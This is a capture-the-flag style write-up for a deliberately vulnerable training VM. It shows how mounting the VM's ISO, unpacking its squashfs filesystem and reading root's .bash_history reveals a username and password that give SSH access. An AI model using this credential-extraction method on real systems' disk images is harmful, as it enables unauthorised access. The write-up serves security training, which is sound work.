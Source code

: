 # Exploring the ISO.

Since we are given an ISO file to create the vulnerable machine, we could also exploit the ISO directly to make our life easier.

First, using [`mount`](https://linux.die.net/man/8/mount) we'll get access to its filesystem...

```shell
  $> sudo mkdir /mnt/iso
  $> sudo mount -o loop BornToSecHackMe-v1.1.iso /mnt/iso/
  $> ls -l /mnt/iso
  total 10
  dr-xr-xr-x 2 root root 2048 juin  17  2017 casper
  dr-xr-xr-x 2 root root 2048 juin  16  2017 install
  dr-xr-xr-x 2 root root 2048 juin  17  2017 isolinux
  -r--r--r-- 1 root root  844 juin  17  2017 md5sum.txt        
  dr-xr-xr-x 2 root root 2048 juin  16  2017 preseed
  -r--r--r-- 1 root root  201 juin  17  2017 README.diskdefines
  -r--r--r-- 1 root root    0 juin  17  2017 ubuntu
```

> We create a mount point inside `/mnt` which is the default directory to do so. the `loop` option will find an unused device to correspond to the ISO in order to mount it correctly.

All these files are used to rebuild the OS and everything on top along with configurations. This particular ISO, [`casper`](https://manpages.ubuntu.com/manpages/focal/man7/casper.7.html) was used. We should find a [squashfs]() file, it is a compress form of the whole file-system. Using [`unsquashfs`](https://manpages.debian.org/testing/squashfs-tools/unsquashfs.1.en.html) we could retrieve all the files within the file-system...

```shell
  $> sudo unsquashfs /mnt/iso/casper/filesystem.squashfs
  Parallel unsquashfs: Using 1 processor
  61188 inodes (56421 blocks) to write
```

It outputs a `squashfs-root` directory with what you'd expect from a filesystem. Meaning we can retrieve command history from `root` by checking inside `.bash_history` file located in its home.

```shell
  $> sudo cat squashfs-root/root/.bash_history
  adduser zaz
  646da671ca01bb5d84dbb5fb2238dc8e
```

With this credentials pair, we can directly connect to the machine via [`ssh`](https://linux.die.net/man/1/ssh) after fiding machine's IP like in [Writeup 1, part 1](../../writeup1/part1.md). This exploit allow us to skip directly to `zaz` exploit like in [Writeup 1, part 6](../../writeup1/part6.md).
